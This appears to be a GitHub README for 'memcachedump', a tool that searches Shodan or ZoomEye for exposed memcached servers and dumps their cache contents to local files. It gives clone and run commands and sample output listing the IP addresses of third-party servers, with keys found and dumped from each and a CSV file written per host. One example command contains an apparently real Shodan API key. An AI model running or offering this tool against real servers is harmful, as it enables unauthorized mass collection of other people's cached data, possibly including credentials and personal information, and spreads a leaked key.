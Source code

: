 ![memcachedump Infographic](https://github.com/JLospinoso/memcachedump/raw/master/memcachedump.png)

`memcachedump` is a tool for dumping the cache contents of exposed memcached servers into local text files.

You'll need Python 3 along with [Shodan API Key](https://developer.shodan.io/api) or [ZoomEye Credentials](https://www.zoomeye.org/).

# Running the tool:

```
> python mcd.py --help
usage: mcd.py [-h] [--key KEY] [--email EMAIL] [--password PASSWORD] [--out OUT] [--json]

Scrape data from memcached servers.

optional arguments:
  -h, --help           show this help message and exit
  --key KEY            Shodan API key.
  --email EMAIL        ZoomEye Email.
  --password PASSWORD  ZoomEye Password.
  --out OUT            Output directory for caches.
  --json               Output as JSON. (Default: CSV)
```

You must supply your Shodan API `--key` or ZoomEye Credentials `--email xyz@xyz.com --password xyz`. 

Optionally, you can specify an `--out` directory for the text files. By default, `mcd` writes to `./out`.

You can also specify `--json` output. By default, writes a CSV file.

# Example usage

```
> git clone git@github.com:JLospinoso/memcachedump.git
> cd memcachedump
> pip3 install shodan
```

### Using Shodan API Key
```
> python3 mcd.py --key kpVD7oF01vn1I9q6AfqGeqA2wkqJu9up
Results found: 108877
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

### Using ZoomEye Credentials
```
> python3 mcd.py --email xyz@xyz.com --password xyz123abc
[ ] Found memcached server at IP: 115.159.38.63
[ ] Found memcached server at IP: 37.220.12.242
[ ] Found memcached server at IP: 115.182.69.234
[ ] Found memcached server at IP: 37.187.205.112
[ ] Found memcached server at IP: 65.175.106.142
[ ] Found memcached server at IP: 217.112.131.172
[ ] Found memcached server at IP: 43.246.216.225
[ ] Found memcached server at IP: 123.30.189.230
...
[ ] Connecting to 115.159.38.63.
[ ] Found 5 key lengths at 115.159.38.63.
[ ] Found 5 keys at 115.159.38.63.
[-] Error connecting to 115.159.38.63: 'utf-8' codec can't decode byte 0xff in position 36: invalid start byte
[ ] Connecting to 37.220.12.242.
[ ] Found 1 key lengths at 37.220.12.242.
[ ] Found 1 keys at 37.220.12.242.
[ ] Dumped 1 key values from 37.220.12.242.
[+] Wrote CSV to out\37.220.12.242.csv
[ ] Connecting to 115.182.69.234.
[ ] Found 1 key lengths at 115.182.69.234.
[ ] Found 1 keys at 115.182.69.234.
[ ] Dumped 1 key values from 115.182.69.234.
[+] Wrote CSV to out\115.182.69.234.csv
[ ] Connecting to 37.187.205.112.
[ ] Found 1 key lengths at 37.187.205.112.
[ ] Found 2 keys at 37.187.205.112.
...
```

All results output to the `out` directory.